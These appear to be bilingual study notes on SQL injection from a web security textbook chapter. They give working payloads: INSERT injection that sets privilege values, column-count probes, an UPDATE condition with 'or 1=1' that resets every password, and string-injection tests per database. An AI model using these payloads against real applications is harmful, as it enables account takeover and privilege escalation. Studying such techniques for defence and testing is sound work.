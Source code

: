 # Chapter 9 SQL injection

## inject to sql
### some basic statements

#### INSERT

`INSERT INTO users (username, password, ID, privs) VALUES (‘daf’, ‘secret’, 2248, 1)`

可能这是一个正常的注册程序，但是在username 处可以 注入用户权限，然后再把后面的闭合
payload: `foo', 'bar', 9999, 0) -- 

但是需要注意的是必须要知道 how many parameters are required, what types they are.

can test with

foo’)-- 
foo’, 1)-- 
foo’, 1, 1)-- 
foo’, 1, 1, 1)--

because 1 will be automatically convert to string if it is.

if 1 is still rejected, try value 200

#### UPDATE

`UPDATE users SET password=’newsecret’ WHERE user = ‘marcus’ and password = ‘secret’`

`UPDATE users SET password=’newsecret’ WHERE user = ‘admin’ or 1=1`

this resets the value of every users' password

### Finding SQL

#### TIPS

be sure to walk through to completion any multistage processes 

有些multistage，在第一个stage输入的数据可能在最后stage之后，才会一起处理

#### inject into string

##### 测试


1. 一个 ' 闭合前面。'' 就escape 第二个 ' 了。输入这两种看有没有变化

2. 输入concatenation 符号，看是不是连接了

select 'input'

Oracle: ‘||’FOO   
MS-SQL: ‘+’FOO   
MySQL: ‘ ‘FOO (note the space between the two quotes)

3. 输入 % (sql的wildcard 即 通配符)

